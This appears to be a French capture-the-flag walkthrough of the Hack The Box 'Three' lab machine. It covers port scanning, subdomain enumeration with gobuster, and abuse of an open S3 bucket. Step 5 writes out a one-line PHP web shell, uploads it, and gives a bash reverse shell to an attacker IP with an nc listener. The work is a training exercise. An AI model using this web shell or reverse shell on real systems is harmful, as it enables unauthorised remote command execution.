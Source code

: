 ```yaml
---

---
```

### About machine
---
#### Ip:

```
10.129.179.40
```

#### OS : 
Ubuntu

### Step 1 : nmap 
---
```
$ sudo nmap -sC -sV 10.129.179.40 
```

![[Pasted image 20250216090131.png]]
**2 ports** overts:
 -**22/tcp** utilisant le seervice **ssh** avec la version **OpenSSH 7.6p1 Ubuntu 4ubuntu0.7**
 -**80/tcp** utilisant le service **http** avec la version **Apache/2.4.29**
### step 2:
---
En l'absence d'un serveur DNS, le fichier que l'on peut utiliser sous Linux pour résoudre les noms d'hôte en adresses IP est : **/etc/hosts**
nous devrons donc ajouter une entrée dans le */etc/hosts* pour ce domaine pour permettre au navigateur de résoudre l'adresse de thetoppers.htb%%domain of the email address provided in the "Contact" section of the website%% 


```
echo "10.129.179.40 thetoppers.htb" | sudo tee -a /etc/hosts
```

### Step 3: énumeration des sous-domaines(gobusters)
---
Pour énumerer les sous-domaines avec **gobuster**, on utlise la commande:

```
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
```
**vhost** : pour la brute-force
**-w**: chemin vers la wordlist
**-u**: pour spécifier l'URL

![[Pasted image 20250216104250.png]]On doit maintenant ajouter une entrée pour ce sous domaine dans **/etc/host**:
```
10.129.227.248 s3.thetoppers.htb
```
Et puis le lancer dans le navigateur ou avec **curl**:
![[Pasted image 20250216104515.png]]
La page affiche seulement un fichier JSON. Cela nous amène à l'étape suivante

### Step 4: bucket S3 
---

n **S3 bucket** (Simple Storage Service) est un service de stockage d'objets proposé par **Amazon Web Services (AWS)**. Il permet de stocker et de récupérer n'importe quelle quantité de données à tout moment et de n'importe où. Les S3 buckets sont souvent utilisés pour héberger des fichiers statiques comme des images, des vidéos, des documents, etc.

Pour interragir avec le service **S3 bucket** on utilise la commande : **awscli**
-Installation : 
```
apt install awscli
```
-configuration:
```
aws configure
```
Mettre tout ce qu'il demande en **temp**
![[Pasted image 20250216111535.png]]

-pour répertorier les **s3 buckets** on utilise la commande:
```
aws s3 ls
```
  pour plus de précision:
```
  aws --endpoint=http://s3.thetoppers.htb s3 l
```
![[Pasted image 20250216112038.png]]

### Step 5: PHP
---
- **création d'un fichier php**:

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
- **Télécharger ce shell PHP dans le bucket thetoppers.htb S3 à l'aide de la commande suivante**:
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
- Execution de la commande **id** à l'aide du *paramètre* **url** 

  ![[Pasted image 20250216115138.png]]

- Obtenons un shell inversé en créant un nouveau fichier shell.sh contenant la charge utile du shell inverse bash suivantequi se reconnectera à notre machine locale sur le port 1337
```
 bash
 bash -i >& /dev/tcp/10.10.15.181/1337 0>&1
```

- Nous allons démarrer un écouteur **ncat** sur notre port local **1337** à l'aide de la commande suivante:
```
 nc -nvlp 1337
```
